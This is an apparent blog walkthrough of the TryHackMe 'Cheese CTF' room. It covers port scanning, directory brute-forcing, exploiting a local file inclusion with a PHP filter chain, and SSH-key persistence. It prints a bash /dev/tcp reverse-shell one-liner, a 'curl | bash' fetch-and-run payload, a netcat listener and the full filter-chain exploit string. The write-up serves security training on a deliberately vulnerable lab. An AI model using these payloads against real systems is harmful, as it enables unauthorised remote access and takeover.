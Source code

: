 ```yaml
---
layout: post
title:  "TryHackMe: Cheese CTF"
description: Inspired by the great cheese talk of THM!
date:   2024-08-10 22:53:59 +0100
categories: jekyll update
---
```


# Cheese CTF:

```sh
export IP= M-ip
```
# Enumeration:

```sh
sudo nmap -sS -sC -sV -vv $IP
```
It's clear that the machine is using port spoofing to create decoy services by opening multiple fake ports. This makes it look like various services are running, which is intended to confuse us and make it harder to identify which port is legitimate.

<details>
  <summary><i>Nmap Discoverd Ports</i></summary>
  <pre>
Discovered open port 143/tcp on 10.10.10.247
Discovered open port 139/tcp on 10.10.10.247
Discovered open port 111/tcp on 10.10.10.247
Discovered open port 995/tcp on 10.10.10.247
Discovered open port 53/tcp on 10.10.10.247
Discovered open port 3389/tcp on 10.10.10.247
Discovered open port 554/tcp on 10.10.10.247
Discovered open port 5900/tcp on 10.10.10.247
Discovered open port 445/tcp on 10.10.10.247
Discovered open port 1720/tcp on 10.10.10.247
Discovered open port 110/tcp on 10.10.10.247
Discovered open port 587/tcp on 10.10.10.247
Discovered open port 8080/tcp on 10.10.10.247
Discovered open port 21/tcp on 10.10.10.247
Discovered open port 22/tcp on 10.10.10.247
Discovered open port 1723/tcp on 10.10.10.247
Discovered open port 80/tcp on 10.10.10.247
Discovered open port 1025/tcp on 10.10.10.247
Discovered open port 993/tcp on 10.10.10.247
Discovered open port 3306/tcp on 10.10.10.247
Discovered open port 5544/tcp on 10.10.10.247
Discovered open port 2222/tcp on 10.10.10.247
Discovered open port 2007/tcp on 10.10.10.247
Discovered open port 3322/tcp on 10.10.10.247
Discovered open port 7402/tcp on 10.10.10.247
Discovered open port 1078/tcp on 10.10.10.247
Discovered open port 3013/tcp on 10.10.10.247
Discovered open port 545/tcp on 10.10.10.247
Discovered open port 8093/tcp on 10.10.10.247
Discovered open port 8010/tcp on 10.10.10.247
Discovered open port 60020/tcp on 10.10.10.247
Discovered open port 9003/tcp on 10.10.10.247
Discovered open port 25/tcp on 10.10.10.247
Discovered open port 6881/tcp on 10.10.10.247
Discovered open port 32775/tcp on 10.10.10.247
Discovered open port 1169/tcp on 10.10.10.247
Discovered open port 5989/tcp on 10.10.10.247
Discovered open port 3005/tcp on 10.10.10.247
Discovered open port 8042/tcp on 10.10.10.247
Discovered open port 49159/tcp on 10.10.10.247
Discovered open port 2135/tcp on 10.10.10.247
Discovered open port 11110/tcp on 10.10.10.247
Discovered open port 8701/tcp on 10.10.10.247
Discovered open port 8193/tcp on 10.10.10.247
Discovered open port 2394/tcp on 10.10.10.247
Discovered open port 5631/tcp on 10.10.10.247
Discovered open port 199/tcp on 10.10.10.247
Discovered open port 90/tcp on 10.10.10.247
Discovered open port 4445/tcp on 10.10.10.247
Discovered open port 1032/tcp on 10.10.10.247
Discovered open port 1009/tcp on 10.10.10.247
Discovered open port 25734/tcp on 10.10.10.247
Discovered open port 5850/tcp on 10.10.10.247
Discovered open port 1812/tcp on 10.10.10.247
Discovered open port 443/tcp on 10.10.10.247
Discovered open port 1030/tcp on 10.10.10.247
Discovered open port 3527/tcp on 10.10.10.247
Discovered open port 2033/tcp on 10.10.10.247
Discovered open port 1152/tcp on 10.10.10.247
Discovered open port 23/tcp on 10.10.10.247
Discovered open port 8083/tcp on 10.10.10.247
Discovered open port 8888/tcp on 10.10.10.247
Discovered open port 113/tcp on 10.10.10.247
Discovered open port 135/tcp on 10.10.10.247
Discovered open port 256/tcp on 10.10.10.247
Discovered open port 1334/tcp on 10.10.10.247
Discovered open port 1192/tcp on 10.10.10.247
Discovered open port 1322/tcp on 10.10.10.247
Discovered open port 32772/tcp on 10.10.10.247
Discovered open port 3052/tcp on 10.10.10.247
Discovered open port 32781/tcp on 10.10.10.247
Discovered open port 27356/tcp on 10.10.10.247
Discovered open port 5414/tcp on 10.10.10.247
Discovered open port 19350/tcp on 10.10.10.247
Discovered open port 808/tcp on 10.10.10.247
Discovered open port 1687/tcp on 10.10.10.247
Discovered open port 9575/tcp on 10.10.10.247
Discovered open port 2035/tcp on 10.10.10.247
Discovered open port 6009/tcp on 10.10.10.247
Discovered open port 50001/tcp on 10.10.10.247
Discovered open port 2909/tcp on 10.10.10.247
Discovered open port 801/tcp on 10.10.10.247
Discovered open port 10617/tcp on 10.10.10.247
Discovered open port 1875/tcp on 10.10.10.247
Discovered open port 38292/tcp on 10.10.10.247
Discovered open port 514/tcp on 10.10.10.247
Discovered open port 2701/tcp on 10.10.10.247
Discovered open port 7999/tcp on 10.10.10.247
Discovered open port 22939/tcp on 10.10.10.247
Discovered open port 1033/tcp on 10.10.10.247
Discovered open port 8008/tcp on 10.10.10.247
Discovered open port 1198/tcp on 10.10.10.247
Discovered open port 2381/tcp on 10.10.10.247
Discovered open port 44442/tcp on 10.10.10.247
Discovered open port 50002/tcp on 10.10.10.247
Discovered open port 3914/tcp on 10.10.10.247
Discovered open port 5225/tcp on 10.10.10.247
Discovered open port 5800/tcp on 10.10.10.247
Discovered open port 2008/tcp on 10.10.10.247
Discovered open port 5862/tcp on 10.10.10.247
Discovered open port 2009/tcp on 10.10.10.247
Discovered open port 8400/tcp on 10.10.10.247
Discovered open port 5033/tcp on 10.10.10.247
Discovered open port 2910/tcp on 10.10.10.247
Discovered open port 10004/tcp on 10.10.10.247
Discovered open port 2260/tcp on 10.10.10.247
Discovered open port 990/tcp on 10.10.10.247
Discovered open port 8085/tcp on 10.10.10.247
Discovered open port 777/tcp on 10.10.10.247
Discovered open port 37/tcp on 10.10.10.247
Discovered open port 8086/tcp on 10.10.10.247
Discovered open port 9898/tcp on 10.10.10.247
Discovered open port 3889/tcp on 10.10.10.247
Discovered open port 616/tcp on 10.10.10.247
Discovered open port 1096/tcp on 10.10.10.247
Discovered open port 7443/tcp on 10.10.10.247
Discovered open port 24/tcp on 10.10.10.247
Discovered open port 6156/tcp on 10.10.10.247
Discovered open port 9080/tcp on 10.10.10.247
Discovered open port 1296/tcp on 10.10.10.247
Discovered open port 2100/tcp on 10.10.10.247
Discovered open port 2607/tcp on 10.10.10.247
Discovered open port 1038/tcp on 10.10.10.247
Discovered open port 1174/tcp on 10.10.10.247
Discovered open port 42/tcp on 10.10.10.247
Discovered open port 2045/tcp on 10.10.10.247
Discovered open port 1783/tcp on 10.10.10.247
</pre>
</details>

# Directory bruteforcing:


```sh
gobuster dir --url http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

```sh
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1759]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.247/images/]
/login.php            (Status: 200) [Size: 834]
/users.html           (Status: 200) [Size: 377]
/messages.html        (Status: 200) [Size: 448]
/orders.html          (Status: 200) [Size: 380]
```

we found that the /messages.html contain 

![Screenshot_9](https://github.com/user-attachments/assets/554342de-9602-4fa1-98f5-ae13da327c3d)

we got a Local File Inclusion (LFI) on /secret-script.php?file=php://filter/resource=/etc/passwd  

PHP applications that allow user input to dictate file handling without proper validation.

![Screenshot_1](https://github.com/user-attachments/assets/3ec570d3-e484-4258-be23-cc2f3683be2b)


# initial access : 

I used php filter chain generator . 

https://github.com/synacktiv/php_filter_chain_generator


```sh
echo "bash -i >& /dev/tcp/10.9.1.54/4444 0>&1" > shell
```
<?= ... ?>: This is PHP's shorthand for <?php echo ... ?>, which means it will output or "echo" whatever is inside the tags.

```sh
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.9.1.54/shell|bash` ?>'
```

<details>
  <summary><i>Output</i></summary>
  <pre>
+] The following gadget chain will generate the following code : <?= `curl -s -L 10.9.1.54/shell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuMS41NC9yZXZzaGVsbGx8YmFzaGAgPz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
  </pre>
</details>

After we apply the PHP filter chain to the vulnerable Local File Inclusion (LFI), the reverse shell script will be downloaded to the victim machine and executed. This happens by using the curl command to fetch the shell script from our remote server, and then piping it directly into Bash for execution, giving us remote access to the target system.

```sh
Attacker Machine 

sudo python3 -m http.server 80
```
```sh
Attacker Machine

nc -lvnp 4444
```

```sh
http://10.10.237.45/secret-script.php?file=PHP-FILTER-CHAIN'Output'
```

![Screenshot_2](https://github.com/user-attachments/assets/b8796269-e663-4402-8c9b-cce01cc4b6c3)


# Privilege escalation:

After further enumeration, I discovered that I have write access to the authorized_keys file in the .ssh directory.

I generated my id_rsa.pub key and added it to the authorized_keys file on the victim machine.

```sh
Attacker Machine

ssh-keygen -t rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine
```
```sh
Victim Machine

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine" > authorized_keys
```

I changed the permissions of the id_rsa private key to ensure it's only readable and writable by me using chmod 600. After that, I used ssh -i id_rsa comte@10.10.122.229 to log into the remote machine as the user comte, authenticating with my private key.

```sh
Attacker Machine

chmod 600 id_rsa

ssh -i id_rsa  comte@10.10.122.229
```

![Screenshot_3](https://github.com/user-attachments/assets/2d798fae-caf9-4243-b251-08a218e826f7)

